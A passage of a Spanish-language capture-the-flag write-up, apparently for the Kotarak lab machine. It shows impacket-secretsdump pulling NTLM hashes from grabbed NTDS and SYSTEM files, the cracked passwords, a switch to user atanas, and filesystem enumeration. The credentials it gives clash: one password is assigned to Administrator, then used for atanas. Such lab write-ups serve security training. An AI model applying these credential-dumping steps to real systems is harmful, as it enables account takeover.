 Procedemos a pasarnos los archivos a nuestro `Kali` para analizarlos:
Estos dos archivos resultan ser del uso de la herramienta psexec para dumpear los hashes NTLM del sistema. 
Podemos usar una herramienta de `impacket` llamada `secretsdumps` para extrar los hashes de estos dos archivos.
```bash
# impacket-secretsdump -system 20170721114637_default_192.168.110.133_psexec.ntdsgrab._089134.bin -ntds 20170721114636_default_192.168.110.133_psexec.ntdsgrab._333512.dit LOCAL
Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

[*] Target system bootKey: 0x14b6fb98fedc8e15107867c4722d1399
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Searching for pekList, be patient
[*] PEK # 0 found and decrypted: d77ec2af971436bccb3b6fc4a969d7ff
[*] Reading and decrypting hashes from 20170721114636_default_192.168.110.133_psexec.ntdsgrab._333512.dit 
" Administrator:500:aad3b435b51404eeaad3b435b51404ee:e64fe0f24ba2489c05e64354d74ebd11::: "
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WIN-3G2B0H151AC$:1000:aad3b435b51404eeaad3b435b51404ee:668d49ebfdb70aeee8bcaeac9e3e66fd:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:ca1ccefcb525db49828fbb9d68298eee:::
WIN2K8$:1103:aad3b435b51404eeaad3b435b51404ee:160f6c1db2ce0994c19c46a349611487:::
WINXP1$:1104:aad3b435b51404eeaad3b435b51404ee:6f5e87fd20d1d8753896f6c9cb316279:::
WIN2K31$:1105:aad3b435b51404eeaad3b435b51404ee:cdd7a7f43d06b3a91705900a592f3772:::
WIN7$:1106:aad3b435b51404eeaad3b435b51404ee:24473180acbcc5f7d2731abe05cfa88c:::
" atanas:1108:aad3b435b51404eeaad3b435b51404ee:2b576acbe6bcfda7294d6bd18041b8fe:::"
```
Probamos a crackear con rainbowtables los hashes obtenidos para el usuario administrator y atanas, ya que lo hemos podido enumerar en el sistema victima.
```bash
Administrator: f16tomcat!
atanas: Password123!
```
A nivel del PC victima:
Escalamos de usuario de tomcat a atanas mediante las siguientes credenciales 
```bash
atanas: f16tomcat!
```
Procedemos con la escalada de privilegios
```bash
tomcat@kotarak-dmz:/home/tomcat$ su atanas
Password:  

atanas@kotarak-dmz:/home/tomcat$ cd ..
atanas@kotarak-dmz:/home$ cd atanas/
atanas@kotarak-dmz:~$ ls
user.txt
atanas@kotarak-dmz:~$ cat user.txt 
93f844f50491ef797c9c1xxxxxxxxxx
```
Procedemos a enumerar el sistema desde la raiz:
```bash
atanas@kotarak-dmz:/$ ls -l
total 97
drwxr-xr-x   3 root root  4096 Jul 21  2017 backups
drwxr-xr-x   2 root root  4096 Jul  9  2017 bin
drwxr-xr-x   4 root root  1024 Aug 29  2017 boot
drwxr-xr-x  20 root root  3980 Jul 20 05:56 dev
drwxr-xr-x 105 root root  4096 Jan 18  2018 etc
drwxr-xr-x   4 root root  4096 Jul 21  2017 home
drwxr-xr-x  24 root root  4096 Jul 21  2017 lib
drwxr-xr-x   2 root root  4096 Jul 21  2017 lib32
drwxr-xr-x   2 root root  4096 Jul 21  2017 lib64
drwxr-xr-x   2 root root  4096 Jul 21  2017 libx32
drwx------   2 root root 16384 Jul  9  2017 lost+found
drwxr-xr-x   4 root root  4096 Jul 21  2017 media
```